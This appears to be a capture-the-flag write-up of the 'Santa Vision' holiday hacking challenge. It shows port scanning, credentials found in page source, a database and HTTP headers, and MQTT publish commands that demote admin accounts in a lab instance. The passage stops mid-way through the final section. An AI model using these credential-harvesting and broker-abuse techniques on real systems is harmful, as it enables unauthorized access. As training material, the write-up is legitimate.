



# Santa Vision

## Table of Contents
- [Santa Vision](#santa-vision)
  - [Table of Contents](#table-of-contents)
  - [Overview](#overview)
  - [Introduction](#introduction)
  - [Objectives](#objectives)
    - [Santa Vision A Objective](#santa-vision-a-objective)
    - [Santa Vision B Objective](#santa-vision-b-objective)
    - [Santa Vision C Objective](#santa-vision-c-objective)
    - [Santa Vision D Objective](#santa-vision-d-objective)
  - [Hints](#hints)
    - [Hint 1: Mosquito Mosquitto](#hint-1-mosquito-mosquitto)
    - [Hint 2: Misplaced Credentials (A)](#hint-2-misplaced-credentials-a)
    - [Hint 3: Filesystem Analysis (A)](#hint-3-filesystem-analysis-a)
    - [Hint 4: Database Pilfering (A)](#hint-4-database-pilfering-a)
  - [Santa Vision A](#santa-vision-a)
    - [Setting Up the Instance](#setting-up-the-instance)
    - [Silver A](#silver-a)
      - [Silver A Analysis](#silver-a-analysis)
      - [Silver A Solution](#silver-a-solution)
    - [Gold A](#gold-a)
      - [Hint 5: Like a Good Header on Your HTTP? (B)](#hint-5-like-a-good-header-on-your-http-b)
      - [Gold A Hint](#gold-a-hint)
      - [Gold A Analysis](#gold-a-analysis)
      - [Gold A Solution](#gold-a-solution)
  - [Santa Vision B](#santa-vision-b)
    - [Silver B](#silver-b)
      - [Silver B Analysis](#silver-b-analysis)
      - [Silver B Solution](#silver-b-solution)
    - [Gold B](#gold-b)
      - [Hint 6: Looking Deeper (C)](#hint-6-looking-deeper-c)
      - [Gold B Hint](#gold-b-hint)
      - [Gold B Analysis](#gold-b-analysis)
      - [Gold B Solution](#gold-b-solution)
  - [Santa Vision C](#santa-vision-c)
    - [Silver C](#silver-c)
      - [Silver C Analysis](#silver-c-analysis)
        - [`northpolefeeds`](#northpolefeeds)
        - [`frostbitfeed`](#frostbitfeed)
        - [`santafeed`](#santafeed)
      - [Silver C Solution](#silver-c-solution)
    - [Gold C](#gold-c)
      - [Gold C Hint](#gold-c-hint)
      - [Gold C Analysis](#gold-c-analysis)
      - [Gold C Solution](#gold-c-solution)
  - [Santa Vision D](#santa-vision-d)
    - [Silver D](#silver-d)
      - [Silver D Analysis](#silver-d-analysis)
      - [Silver D Solution](#silver-d-solution)
    - [Gold D](#gold-d)
      - [Gold D Hint](#gold-d-hint)
      - [Gold D Analysis](#gold-d-analysis)
      - [Gold D Solution](#gold-d-solution)
  - [Outro](#outro)
  - [Important Information for Another Change](#important-information-for-another-change)
  - [Files](#files)
  - [References](#references)
  - [Navigation](#navigation)

---

## Overview

In the DMZ, near the closed North Pole Monitoring Station, Ribb Bonbowford stands by the Santa Vision terminal, explains the Santa Broadcast Network (SBN), and introduces the challenge.

## Introduction

**Ribb Bonbowford**

Hi, Ribb Bonbowford here, ready to guide you through the SantaVision dilemma!

The Santa Broadcast Network (SBN) has been hijacked by Wombley's goons—they're using it to spread propaganda and recruit elves! And Alabaster joined in out of necessity. Quite the predicament, isn't it?

To access this challenge, use this terminal to access your own instance of the SantaVision infrastructure.

Once it's done baking, you'll see an IP address that you'll need to scan for listening services.

Our target is the technology behind the SBN. We need make a key change to its configuration.

We've got to remove their ability to use their admin privileges. This is a delicate maneuver—are you ready?

We need to change the application so that multiple administrators are not permitted. A misstep could cause major issues, so precision is key.

Once that's done, positive, cooperative images will return to the broadcast. The holiday spirit must prevail!

This means connecting to the network and pinpointing the right accounts. Don't worry, we'll get through this.

Let's ensure the broadcast promotes unity among the elves. They deserve to see the season's spirit, don't you think?

Remember, it's about cooperation and togetherness. Let's restore that and bring back the holiday cheer. Best of luck!

The first step to unraveling this mess is gaining access to the SantaVision portal. You'll need the right credentials to slip through the front door—what username will get you in?

## Objectives

Alabaster and Wombley have poisoned the Santa Vision feeds! Knock them out to restore everyone back to their regularly scheduled programming.

### Santa Vision A Objective
What username logs you into the portal?

### Santa Vision B Objective
Once logged on, authenticate further without using Wombley's or Alabaster's accounts to see the `northpolefeeds` on the monitors. What username worked here?

### Santa Vision C Objective
Using the information available to you in the platform, subscribe to the `frostbitfeed` MQTT topic. Are there any other feeds available? What is the code name for the elves' secret operation?

### Santa Vision D Objective
There are too many admins. Demote Wombley and Alabaster with a single MQTT message to correct the `northpolefeeds` feed. What type of contraption do you see Santa on?

## Hints

### Hint 1: Mosquito Mosquitto
Mosquitto is a great client for interacting with MQTT, but their spelling may be suspect. Prefer a GUI? Try MQTTX

### Hint 2: Misplaced Credentials (A)
See if any credentials you find allow you to subscribe to any MQTT feeds.

### Hint 3: Filesystem Analysis (A)
jefferson is great for analyzing JFFS2 file systems.

### Hint 4: Database Pilfering (A)
Consider checking any database files for credentials.

---

## Santa Vision A

### Setting Up the Instance

Clicking on the terminal shows a landing page with an image of Santa and a gator icon at the bottom right:


Clicking on the gator icon opens up the GateXOR terminal with a few buttons:

- About
- Time Travel
- Collapse



The Time Travel button starts up a unique instance separate from other players, and the Collapse button tears that down. Clicking Time Travel generates an IP to use for the challenge:



### Silver A

#### Silver A Analysis
Let's start by checking the services running in the IP address we are given with `nmap`. Let's make sure we scan all the ports and not just the standard ones.
```bash
$ nmap -sV -p- 35.223.215.14
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-12-02 15:46 CST
Nmap scan report for 14.215.223.35.bc.googleusercontent.com (35.223.215.14)
Host is up (0.044s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
25/tcp   filtered smtp
111/tcp  filtered rpcbind
135/tcp  filtered msrpc
137/tcp  filtered netbios-ns
138/tcp  filtered netbios-dgm
139/tcp  filtered netbios-ssn
445/tcp  filtered microsoft-ds
1883/tcp open     mqtt
5355/tcp filtered llmnr
8000/tcp open     http         Gunicorn
9001/tcp open     tor-orport?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9001-TCP:V=7.95%I=7%D=12/2%Time=674E2CFF%P=x86_64-apple-darwin23.4.
SF:0%r(SSLSessionReq,F5,"HTTP/1\.0\x20403\x20Forbidden\r\ncontent-type:\x2
SF:0text/html\r\ncontent-length:\x20173\r\n\r\n<html><head><meta\x20charse
SF:t=utf-8\x20http-equiv=\"Content-Language\"\x20content=\"en\"/><link\x20
SF:rel=\"stylesheet\"\x20type=\"text/css\"\x20href=\"/error\.css\"/></head
SF:><body><h1>403</h1></body></html>")%r(TLSSessionReq,F5,"HTTP/1\.0\x2040
SF:3\x20Forbidden\r\ncontent-type:\x20text/html\r\ncontent-length:\x20173\
SF:r\n\r\n<html><head><meta\x20charset=utf-8\x20http-equiv=\"Content-Langu
SF:age\"\x20content=\"en\"/><link\x20rel=\"stylesheet\"\x20type=\"text/css
SF:\"\x20href=\"/error\.css\"/></head><body><h1>403</h1></body></html>")%r
SF:(SSLv23SessionReq,F5,"HTTP/1\.0\x20403\x20Forbidden\r\ncontent-type:\x2
SF:0text/html\r\ncontent-length:\x20173\r\n\r\n<html><head><meta\x20charse
SF:t=utf-8\x20http-equiv=\"Content-Language\"\x20content=\"en\"/><link\x20
SF:rel=\"stylesheet\"\x20type=\"text/css\"\x20href=\"/error\.css\"/></head
SF:><body><h1>403</h1></body></html>")%r(JavaRMI,F5,"HTTP/1\.0\x20403\x20F
SF:orbidden\r\ncontent-type:\x20text/html\r\ncontent-length:\x20173\r\n\r\
SF:n<html><head><meta\x20charset=utf-8\x20http-equiv=\"Content-Language\"\
SF:x20content=\"en\"/><link\x20rel=\"stylesheet\"\x20type=\"text/css\"\x20
SF:href=\"/error\.css\"/></head><body><h1>403</h1></body></html>")%r(Radmi
SF:n,F5,"HTTP/1\.0\x20403\x20Forbidden\r\ncontent-type:\x20text/html\r\nco
SF:ntent-length:\x20173\r\n\r\n<html><head><meta\x20charset=utf-8\x20http-
SF:equiv=\"Content-Language\"\x20content=\"en\"/><link\x20rel=\"stylesheet
SF:\"\x20type=\"text/css\"\x20href=\"/error\.css\"/></head><body><h1>403</
SF:h1></body></html>")%r(mongodb,F5,"HTTP/1\.0\x20403\x20Forbidden\r\ncont
SF:ent-type:\x20text/html\r\ncontent-length:\x20173\r\n\r\n<html><head><me
SF:ta\x20charset=utf-8\x20http-equiv=\"Content-Language\"\x20content=\"en\
SF:"/><link\x20rel=\"stylesheet\"\x20type=\"text/css\"\x20href=\"/error\.c
SF:ss\"/></head><body><h1>403</h1></body></html>")%r(tarantool,F5,"HTTP/1\
SF:.0\x20403\x20Forbidden\r\ncontent-type:\x20text/html\r\ncontent-length:
SF:\x20173\r\n\r\n<html><head><meta\x20charset=utf-8\x20http-equiv=\"Conte
SF:nt-Language\"\x20content=\"en\"/><link\x20rel=\"stylesheet\"\x20type=\"
SF:text/css\"\x20href=\"/error\.css\"/></head><body><h1>403</h1></body></h
SF:tml>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 601.46 seconds
```

From the scan, there are a few key services to investigate.

1. Port 22 (SSH):
   - Useful after we get some credentials on the system.

2. Port 1883 (MQTT):
   - MQTT is a message broker protocol.
   - Given the challenge instructions, this is critical for accessing topics like `northpolefeeds` and `frostbitfeed` and managing admin privileges.
   - We can use the Mosquitto CLI or MQTTX to connect and explore topics.
     ```bash
     mosquitto_sub -h 35.223.215.14 -p 1883 -t '#' -v
     ```
   - Rescanning the port to get more information shows "Not Authorized":
     ```bash
     $ nmap -sCV -p 1883 35.223.215.14
     ```
     ```
     Starting Nmap 7.95 ( https://nmap.org ) at 2024-12-02 15:46 CST
     Nmap scan report for 14.215.223.35.bc.googleusercontent.com (35.223.215.14)
     Host is up (0.044s latency).
     Not shown: 65523 closed tcp ports (conn-refused)
     PORT     STATE    SERVICE      VERSION
     1883/tcp open  mqtt
     |_mqtt-subscribe: Connection rejected: Not Authorized
     ```
   - Since authentication is required, we will need to find credentials in another service or via enumeration.

3. Port 9001 (TOR? or Management Interface):
   - Unclear based on the scan, but it might be a TOR node or another management interface.
   - After attempting to connect via a browser `http://35.223.215.14:9001`, we get a 403 Forbidden error.

4. Port 8000 (HTTP - Gunicorn):
   - [Gunicorn](https://gunicorn.org/) is a Python WSGI HTTP server.
   - Likely hosting the "portal" mentioned in the challenge.
   - We can navigate to the web application in a browser.

Let's check the Python web server. Upon loading the page at URL `http://35.223.215.14:8000` we can see the **Santa Vision** portal asking for a username and password.



The page has a label at the bottom `(topic ‘sitestatus' available.)`. Maybe this hints at an MQTT topic.

Looking at the HTML, we can see a comment on that label:
```html
  <b>©2024 Santavision Elventech Co., Ltd. Snow Rights Reserved.<br>(<i>topic 'sitestatus'</i> available.)</b>
</div> <!-- mqtt: elfanon:elfanon -->
```

These are the credentials to log into the website.

#### Silver A Solution

- **Question:** What username logs you into the portal?
- **Answer:** `elfanon`

---

### Gold A

Great work! You've taken the first step—nicely done. You're on the silver path and off to a strong start!

You've gained access, but there's still much more to uncover. Patience and persistence will guide you—silver or gold, you're making progress!

Now that you're in, it's time to go deeper. We need access to the northpolefeeds. This won't work if you use Wombley or Alabaster's credentials—find the right user to log in.

#### Hint 5: Like a Good Header on Your HTTP? (B)
Be on the lookout for strange HTTP headers…

#### Gold A Hint
Stay curious. Sometimes, the smallest details — often overlooked — hold the keys to the kingdom. Pay close attention to what's hidden in the source.

#### Gold A Analysis
Let's try to connect to the MQTT server using the same credentials to look at the `sitestatus` topic.
```bash
mosquitto_sub -h 34.30.167.48 -p 1883 -u elfmonitor -P SiteElfMonitorRole -t 'sitestatus' -v
```
```
sitestatus Broker Authentication as admin succeeded
sitestatus Broker Authentication as superadmin succeeded
sitestatus Broker Authentication failed: AlabasterS
sitestatus Broker Authentication failed: WomblyC
sitestatus Broker Authentication succeeded: AlabasterS
sitestatus Broker Authentication succeeded: WomblyC
sitestatus File downloaded: /static/sv-application-2024-SuperTopSecret-9265193/applicationDefault.bin
```

There is a path to a file starting with `/static/`. Let's download it using the browser with the following URL `http://35.223.215.14:8000/static/sv-application-2024-SuperTopSecret-9265193/applicationDefault.bin`.

Let's confirm what type of file it is:
```bash
file applicationDefault.bin 
```
```
applicationDefault.bin: Linux jffs2 filesystem data little endian
```

The file [`applicationDefault.bin`](./site-files/applicationDefault.bin) is recognized as a JFFS2 (Journaling Flash File System v2) filesystem image.

As mention in Hint 3, `jefferson` is a Python tool that can extract and manipulate the contents of JFFS2 images.
```bash
jefferson -d sv-jffs2-files/ applicationDefault.bin
```
```
dumping fs to .../sv-jffs2-files (endianness: <)
Jffs2_raw_inode count: 47
Jffs2_raw_dirent count: 47
writing S_ISREG .bashrc
writing S_ISREG .profile
writing S_ISDIR app
writing S_ISDIR app/src
writing S_ISREG app/src/__init__.py
writing S_ISDIR app/src/accounts
writing S_ISDIR app/src/core
writing S_ISDIR app/src/static
writing S_ISDIR app/src/templates
writing S_ISREG app/src/accounts/__init__.py
writing S_ISREG app/src/accounts/forms.py
writing S_ISREG app/src/accounts/models.py
writing S_ISREG app/src/accounts/views.py
writing S_ISREG app/src/core/__init__.py
writing S_ISREG app/src/core/views.py
writing S_ISDIR app/src/static/DB
writing S_ISREG app/src/static/DS-DIGI.TTF
writing S_ISDIR app/src/static/css
writing S_ISDIR app/src/static/images
writing S_ISDIR app/src/static/js
writing S_ISREG app/src/static/css/styles.css
writing S_ISREG app/src/static/images/login-bg.png
writing S_ISREG app/src/static/images/login.jpg
writing S_ISREG app/src/static/images/logo.png
writing S_ISREG app/src/static/images/monitor1.png
writing S_ISREG app/src/static/images/monitor2.png
writing S_ISREG app/src/static/images/monitor3.png
writing S_ISREG app/src/static/images/monitor4.png
writing S_ISREG app/src/static/images/monitoroff.png
writing S_ISREG app/src/static/images/monitors.png
writing S_ISREG app/src/static/images/nofeed.png
writing S_ISREG app/src/static/images/noimage.png
writing S_ISREG app/src/static/js/jquery.min.js
writing S_ISREG app/src/static/js/mqttJS.js
writing S_ISREG app/src/templates/_base.html
writing S_ISDIR app/src/templates/accounts
writing S_ISDIR app/src/templates/core
writing S_ISDIR app/src/templates/errors
writing S_ISREG app/src/templates/navigation.html
writing S_ISREG app/src/templates/accounts/login.html
writing S_ISREG app/src/templates/accounts/no-token.html
writing S_ISREG app/src/templates/core/index.html
writing S_ISREG app/src/templates/core/invalid-token.html
writing S_ISREG app/src/templates/core/no-token.html
writing S_ISREG app/src/templates/errors/401.html
writing S_ISREG app/src/templates/errors/404.html
writing S_ISREG app/src/templates/errors/500.html
```

Looking around confirms that it is a Python Flask application. In the `./app/src/accounts/views.py` file, there is a reference to another file that can be downloaded: `/sv2024DB-Santa/SantasTopSecretDB-2024-Z.sqlite`.

Let's download it using the browser with the following URL `http://35.223.215.14:8000/sv2024DB-Santa/SantasTopSecretDB-2024-Z.sqlite`.

Let's confirm the file is an SQLite database as implied by the name:
```bash
file SantasTopSecretDB-2024-Z.sqlite 
```
```
SantasTopSecretDB-2024-Z.sqlite: SQLite 3.x database, last written using SQLite version 3046000, file counter 16, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 16
```

Checking the [`SantasTopSecretDB-2024-Z.sqlite`](./site-files/SantasTopSecretDB-2024-Z.sqlite) database shows a `users` table with credentials.
```bash
sqlite3 SantasTopSecretDB-2024-Z.sqlite 
```
```
SQLite version 3.43.2 2023-10-10 13:08:14
Enter ".help" for usage hints.
```
```sql
sqlite> .tables
alembic_version  users          
sqlite> .schema
CREATE TABLE alembic_version (
	version_num VARCHAR(32) NOT NULL, 
	CONSTRAINT alembic_version_pkc PRIMARY KEY (version_num)
);
CREATE TABLE users (
	id INTEGER NOT NULL, 
	username VARCHAR NOT NULL, 
	password VARCHAR NOT NULL, 
	created_on DATETIME NOT NULL, 
	is_admin BOOLEAN NOT NULL, 
	PRIMARY KEY (id), 
	UNIQUE (username)
);
sqlite> SELECT * FROM users;
1|santaSiteAdmin|S4n+4sr3411yC00Lp455wd|2024-01-23 06:05:29.466071|1
sqlite> .headers on
sqlite> .mode column
sqlite> SELECT * FROM users;
id  username        password                created_on                  is_admin
--  --------------  ----------------------  --------------------------  --------
1   santaSiteAdmin  S4n+4sr3411yC00Lp455wd  2024-01-23 06:05:29.466071  1
sqlite> SELECT * FROM alembic_version;
version_num
------------
7351a35fa22f
sqlite> .exit
```
We can use these credentials to log into the portal.

#### Gold A Solution
- **Question:** What username logs you into the portal?
- **Answer:** `santaSiteAdmin`

---

## Santa Vision B

### Silver B

#### Silver B Analysis
Using the `elfanon:elfanon` credentials to log into the portal loads an "auth" page under this URL:
```
http://34.118.204.111:8000/auth?id=viewer&loginName=elfanon
```

Available clients: `elfmonitor`, `WomblyC`, `AlabasterS`

**GET Request:**
```
http://34.118.204.111:8000/listClients
```
**Response:**
```json
{
    "clients":"'elfmonitor', 'WomblyC', 'AlabasterS'"
}
```

Available roles: `SiteDefaultPasswordRole`, `SiteElfMonitorRole`, `SiteAlabsterSAdminRole`, `SiteWomblyCAdminRole`

**GET Request:**
```
http://34.118.204.111:8000/listRoles
```

**Response:**
```json
{
    "roles": "'SiteDefaultPasswordRole', 'SiteElfMonitorRole', 'SiteAlabsterSAdminRole', 'SiteWomblyCAdminRole'"
}
```

To turn the camera feed on, we need to use another client that is not Wombly or Alabaster:

* The client that remains from the list is `elfmonitor`.
* As for the password, it turns out that one of the 'roles' from the `listRoles` API is also a password.
* Let's use `elfmonitor:SiteElfMonitorRole` to turn on the camera feed.
* For the camera feed server we will use the same portal IP address, However, for the port, let's use the last port from the `nmap` scan that was unrecognized:
  ```
  9001/tcp open     tor-orport?
  ```
* After turning the monitors ON, we can connect to the `northpolefeeds` feed and several images are displayed on the monitors.

#### Silver B Solution
- **Question:** Once logged on, authenticate further without using Wombley's or Alabaster's accounts to see the `northpolefeeds` on the monitors. What username worked here?
- **Answer:** `elfmonitor`

### Gold B
Excellent progress! You've moved us closer to understanding this network—keep it up on the silver path!

You're doing fantastic! The northpolefeeds are now in your sights. Silver or gold, you're pushing forward with great momentum!

We're getting closer. Now, we need to dig into the frostbitfeed. It's time to figure out if any other feeds are lurking beneath the surface—and uncover the elves' secret operation.

#### Hint 6: Looking Deeper (C)
Discovering the credentials will show you the answer, but will you see it?

#### Gold B Hint
Look beyond the surface. Headers and subtle changes might just open new doors. Pay close attention to everything as you log in.

#### Gold B Analysis
Let's use `santaSiteAdmin:S4n+4sr3411yC00Lp455wd` to log into the portal.

Following the hint about monitoring the HTTP headers, let's look at the values during the login process.

The Response Header of the "auth" page under this URL:
```
http://34.70.65.62:8000/auth?id=viewer&loginName=santaSiteAdmin
```
includes the following entries:
```
  BrkrTopic: northpolefeeds
  BrkrUser: santashelper2024
  BrkrPswd: playerSantaHelperPass3676000769
```
These credentials worked to turn the monitors on.

#### Gold B Solution
- **Question:** Once logged on, authenticate further without using Wombley's or Alabaster's accounts to see the `northpolefeeds` on the monitors. What username worked here?
- **Answer:** `santashelper2024`

## Santa Vision C

The quest is to find the code name for the elves' operation.

### Silver C

#### Silver C Analysis
Let's check the messages from all the feeds.

##### `northpolefeeds`
This is the feed for the monitor images.
```bash
mosquitto_sub -h 34.56.251.100 -p 1883 -u elfmonitor -P SiteElfMonitorRole -t 'northpolefeeds' -v
```
```
northpolefeeds ./static/images/monitor1.png,./static/images/monitor2.png,./static/images/monitor3.png,./static/images/monitor4.png,./static/images/monitor5.png,./static/images/monitor6.png,./static/images/monitor7.png,./static/images/monitor8.png
```
The images can be seen under the `./northpolefeeds/` folder. The messages from the images are:

  1. Be part of a team where innovation matters. Join Team Wombley Today!
  2. Get prepared for a sound future. Join Team Alabaster today!
  3. At Team Wombley, we do things the smart way!
  4. Enjoy recreational drone skeet with Team Alabaster
  5. Whether it's 9 o'clock or any other time, we don't miss anything at Team Wombley!
  6. Always Prepared for anything. That's Team Alabaster!
  7. Team Wombley believes in the force of giving, Always.
  8. There when needed or when it's the season Team Alabaster always has an open hand to offer.

##### `frostbitfeed`
Connecting to the 'frostbitfeed' feed does not have any images, only messages.
```bash
mosquitto_sub -h 34.56.251.100 -p 1883 -u elfmonitor -P SiteElfMonitorRole -t 'frostbitfeed' -v
```
```
frostbitfeed Additional messages available in santafeed
frostbitfeed Be sure everyone knows the signs and symptoms of frostbite
frostbitfeed Do you conduct regular frostbite preparedness exercises?
frostbitfeed Error msg: Unauthorized access attempt. /api/v1/frostbitadmin/bot/<botuuid>/deactivate, authHeader: X-API-Key, status: Invalid Key, alert: Warning, recipient: Wombley
frostbitfeed Frostbit is a leading cause of network downtime
frostbitfeed Frostbite can be prevented by using a firewall and keeping your network secure
frostbitfeed Frostbite can occur in as little as 30 minutes in extreme cold - faster in flat networks
frostbitfeed Frostbite is a serious condition that can cause permanent damage to the body and/or network
frostbitfeed Let's Encrypt cert for api.frostbit.app verified. at path /etc/nginx/certs/api.frostbit.app.key
frostbitfeed To prevent frostbite, you should wear appropriate clothing and cover exposed skin and ports
frostbitfeed While good backups are important, they won't prevent frostbite
```

We can see that there is another feed named `santafeed`.

##### `santafeed`
Connecting to the `santafeed` feed does not have any images, only messages.
```bash
mosquitto_sub -h 34.56.251.100 -p 1883 -u elfmonitor -P SiteElfMonitorRole -t 'santafeed' -v
```
```
santafeed AlabasterS role: admin
santafeed Santa is checking his list
santafeed Santa is making his list
santafeed Santa is on his way to the North Pole
santafeed Santa role: superadmin
santafeed Sixteen elves launched operation: Idemcerybu
santafeed WombleyC role: admin
santafeed singleAdminMode=false
santafeed superAdminMode=true
```

This is the message with code name:
```
santafeed Sixteen elves launched operation: Idemcerybu
```

#### Silver C Solution
- **Question:** Using the information available to you in the platform, subscribe to the `frostbitfeed` MQTT topic. Are there any other feeds available? What is the code name for the elves' secret operation?
- **Answer:** `Idemcerybu`

### Gold C

Wonderful job! You've uncovered a critical piece of the puzzle—well on track with the silver approach!

You're almost there! The operation's code is unlocked, but the final challenge is waiting. Silver or gold, you're close to victory!

It's time to take back control of the Santa Broadcast Network. There really shouldn't be multiple administrators—send the right message, and Santa's true spirit will return. What's Santa test-driving this season?

#### Gold C Hint
Sometimes the answers are in the quiet moments. Pay attention to every feed and signal — you may find what you're looking for hidden deep in the streams.

#### Gold C Analysis
* The feeds messages did not change when using other credentials.
* The message about the operation name in the `santafeed` needs to be analyzed further.
* The letters in the code name `Idemcerybu` seem to the scrambled or rotated.
* After testing several ROT shift values, it turns out that the name is encoded with a ROT cipher.
* The hint about sixteen elves lauched the operation is relevant because the characters are rotated by -16 characters.
* After decoding the word with ROT10 (same as ROT-16), the Gold word is `Snowmobile`.

#### Gold C Solution
- **Question:** Using the information available to you in the platform, subscribe to the `frostbitfeed` MQTT topic. Are there any other feeds available? What is the code name for the elves' secret operation?
- **Answer:** `Snowmobile`

---

## Santa Vision D

This time we need to demote the other admins, and look at the `northpolefeeds` to find the contraption Santa is on.

The default images in the `northpolefeeds` feed (available under the `./northpolefeeds/` folder) do not show Santa.

Let's start with the admin role modifications.

### Silver D

#### Silver D Analysis
These messages in the `santafeed` feed provide details about the admin role:
```
santafeed AlabasterS role: admin
santafeed Santa role: superadmin
santafeed WombleyC role: admin
santafeed singleAdminMode=false
santafeed superAdminMode=true
```

To remove the multiple admin accounts, let's log in using the `elfmonitor` user and publish a message to `santafeed` to set: `singleAdminMode=true`

After this message is published, both Wombley and Alabaster show up as users:
```
santafeed AlabasterS role: user
santafeed WombleyC role: user
```

After reconnecting to the `northpolefeeds`, new images are provided by the feed to show on the monitors.
```bash
mosquitto_sub -h 34.56.251.100 -p 1883 -u elfmonitor -P SiteElfMonitorRole -t 'northpolefeeds' -v
```
```
northpolefeeds ./static/images/hhc2024santatopsecreteasyimages376919542/santa376919542-1.png,./static/images/hhc2024santatopsecreteasyimages376919542/santa376919542-2.png,./static/images/hhc2024santatopsecreteasyimages376919542/santa376919542-3.png,./static/images/hhc2024santatopsecreteasyimages376919542/santa376919542-4.png,./static/images/hhc2024santatopsecreteasyimages376919542/santa376919542-5.png,./static/images/hhc2024santatopsecreteasyimages376919542/santa376919542-6.png,./static/images/hhc2024santatopsecreteasyimages376919542/santa376919542-7.png,./static/images/hhc2024santatopsecreteasyimages376919542/santa376919542-8.png
```

The images are available under the `./northpolefeeds/silver/` folder. They show Santa on a Pogo Stick.

#### Silver D Solution
- **Question:** There are too many admins. Demote Wombley and Alabaster with a single MQTT message to correct the `northpolefeeds` feed. What type of contraption do you see Santa on?
- **Answer:** `Pogo Stick`

.

### Gold D

Excellent! You've successfully removed the propaganda and restored the true spirit of the season. A solid silver finish—well done!

Mission accomplished! The airwaves are restored, and the message is one of unity and teamwork. Whether silver or gold, you've done an incredible job!

#### Gold D Hint
Think about the kind of ride Santa would take in a world filled with innovation. His vehicle of choice might surprise you—pay attention to the futuristic details.

#### Gold D Analysis
To prevent multiple admin accounts, we need to publish the same message as in Silver, but it has to be done with the CLI because the UI does not have the option with the `santaSiteAdmin` account.
```bash
mosquitto_pub -h 34.171.133.180 -p 1883 -u santashelper2024 -P playerSantaHelperPass3676000769 -t 'santafeed' -m "singleAdminMode=true"
```

After reconnecting to the `northpolefeeds`, new images are provided by the feed to show on the monitors.
```bash
mosquitto_sub -h 34.171.133.180 -p 1883 -u santashelper2024 -P playerSantaHelperPass3676000769 -t 'northpolefeeds' -v
```
```
